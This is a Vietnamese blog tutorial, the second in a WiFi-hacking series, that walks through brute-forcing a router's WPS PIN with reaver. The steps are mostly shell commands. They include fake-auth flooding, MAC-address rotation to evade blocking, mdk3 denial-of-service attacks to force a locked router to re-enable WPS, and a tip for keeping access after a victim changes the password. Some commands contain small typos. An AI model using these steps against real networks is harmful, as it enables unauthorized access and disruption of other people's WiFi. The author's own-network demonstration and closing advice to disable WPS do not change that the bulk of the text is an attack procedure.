 # Nghịch vài trò "hack" Wifi - Phần 2: WPS

Ở phần thứ nhất, chúng ta đã tìm hiểu cách hack wifi bằng phương pháp từ điển - lợi dụng sơ hở trong quá trình xác thực bắt tay 4 bước. Hack wifi bằng từ điển có ưu điểm là hạ được nhiều loại bảo mật nhưng lại gặp vấn đề khi người dùng đặt mật khẩu khó, có khi chạy cả tháng, cả năm cũng không ra mật khẩu. Thay vào đó, chúng ta sẽ lợi dụng sơ hở trong xác thực mã pin, hôm nay mình sẽ trình bày phương pháp hack wifi thông qua WPS.
## Tổng quan
Với phương pháp hack wifi bằng WPS, điều kiện tiên quyết là modem wifi phải bật chế độ WPS, vậy WPS là gì?
WPS - WiFi Protected Setup, là tính năng hỗ trợ kết nối mạng wifi giữa Client và AP với nhau, nhưng lại bỏ qua bước phải nhập mật khẩu WiFi truyền thống. Nhờ có WPS mà người dùng không cần nhớ mật khẩu vẫn có thể truy cập vào AP, hầu hết modem hiện nay đều hỗ trợ WPS (có thể xem ở modem nhà bạn). Và quan trọng hơn là nó mặc định được bật :).
## Công cụ và thực hành
- <a href="https://www.aircrack-ng.org/doku.php">Aircrack-ng</a>: công cụ chuyển chế độ monitor
- <a href="https://github.com/t6x/reaver-wps-fork-t6x">Reaver</a>: công cụ mạnh mẽ tấn công kiểm tra các mạng wifi sử dụng phương thức tấn công brute force mã PIN
- <a href="https://gitlab.com/kalilinux/packages/mdk3">Mdk3</a>: công cụ tấn công gói tin tới AP
- <a href="https://github.com/alobbs/macchanger">Macchanger</a>: công cụ hỗ trợ thay đổi địa chỉ mac của thiết bị

Như cách tấn công bằng từ điển, chúng ta cần có 1 card wifi hỗ trợ monitor, ở đây mình vẫn chọn TP-link WN722N V1.
<img src="https://crowi.pionero.io/files/610edcc41120630068a6a65e"  width="400px" height="300px">
Kiểm tra tên của card wifi:

```shell
# airmon-ng
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a660" height="150px">

Tắt toàn bộ tiến trình sử dụng mạng
```shell
# airmon-ng check kill
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a65f" height="150px">

Start monitor cho card có tên là wlan0
```shell
# airmon-ng start: wlan0
```
<img src="https://crowi.pionero.io/files/610ee1381120630068a6a66c" height="150px">

Kiểm tra lại lần nữa:
```shell
# airmon-ng
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a663" height="150px">

Chúng ta có 1 monitor là wlan0mon, bây giờ ta thực hiện các thao tác trên monitor.
Quét tất cả các AP hỗ trợ WPS xung quanh:
```shell
# wash -i wlan0mon
```
![Screenshot_2021-08-29_10-01-20.png](https://crowi.pionero.io/files/612b933d01bb4b0067d0ad93)
Nếu lệnh này không hiển thị được các AP, fix bằng cách tạo 1 thư mục `reaver` cho nó.
```shell
# mdkir /etc/reaver
```
Xác định mục tiêu, như thường lệ, mình vẫn chọn AP có tên là **Room_402**, chính là AP của phòng mình(đã đổi mật khẩu khác trước nhé ^_^)
Chúng ta cần xác định 1 số tham số:
- Bssid: Địa chỉ MAC của AP
- Channel: Kênh của AP
- Essid: Tên của AP

Sau khi xác định được các yếu tố trên, chạy lệnh:
```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N
```
Trong đó:
- vv: Xem log 1 cách chi tiết
- g: số lần attempts mã pin, ở đây mình chọn là 21 - kinh nghiệm
- A: Không sử dụng *associate*, ở đây mình *associate* bằng *aireplay-ng* để tránh timeout
- L: không cập nhât trạng thái locked
- N: không sử dụng Nack message


Sử dụng aireplay-ng để gửi liên tục các fake-auth để tránh tình trạng AP bị timeout.
```shell
# iw dev wlan0mon set channel <channel> && aireplay-ng --fakeauth 15 -a <bssid > -e <essid> wlan0mon
```

Trong quá trình tấn công, có 1 vài modem chặn quá trình tấn công **DDOS** nên chúng ta phải liên tục thay đổi địa chỉ MAC cho monitor.
```shell
# ifconfig wlan0mon down
# macchanger -r wlan0mon
# ifconfig wlan0mon up
```
Tham số -r để chỉ định sinh ra ngẫu nhiên. 
![image.png](https://crowi.pionero.io/files/612b953b01bb4b0067d0ad94)


Một số modem có cơ chế tự động tắt WPS nếu nhận quá nhiều attempts, nếu kiểm tra thấy WPS đã bị lock, chúng ta cần tấn công **DDOS** để modem reset và bât lại WPS. Ở đây, ta sử dụng Mdk3 để tấn công.
Chúng ta có thể sử dụng các mode a b d m để tấn công, hoặc kết hợp toàn bộ, chi tiết xem thêm ở <a href="https://kalitut.com/mdk3-examples-tutorial/">đây</a>.
## Kết quả
Sau tầm 15p chúng ta đã có kết quả, mặc dù password đã đặt rất khó: *@&wifi#nay#deo#the#hack#1998$$* 
nhưng sử dụng WPS vẫn chỉ mất có 15p ^_^.
![image.png](https://crowi.pionero.io/files/612b923b01bb4b0067d0ad92)

1 tip nữa sau khi có được mã pin, dù victim có thay đổi mật khẩu thì chúng ta vẫn dễ dàng tìm được, chỉ cần thêm tham số -p ở câu lệnh:
```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N -p <pin>
```
Với pin là pin đã lấy được ở trên.
## Tổng kết
Kĩ thuật lợi dụng WPS là 1 kĩ thuật khó, đòi hỏi phải có nhiều kinh nghiệm cũng như xử lý tốt tình huống.
So với kĩ thuật hack bằng từ điển thì kĩ thuật này có ưu điểm không cần biết mật khẩu đặt khó hay không, nhưng nhược điểm là bắt buộc modem phải bật WPS. Do đó, điều chúng ta rút ra rằng là không nên bật chế độ WPS nếu không thực sự quá cần thiết.
Sang bài tiếp theo, chúng ta sẽ tiếp cận với một hướng đi khác, dễ hơn, lợi hại hơn nhưng cũng nguy hiểm - **Phising Attack**.

*lưu ý: bài viết chỉ nhằm mục đích học tập, mình không chịu trách nhiệm cho mọi tình huống*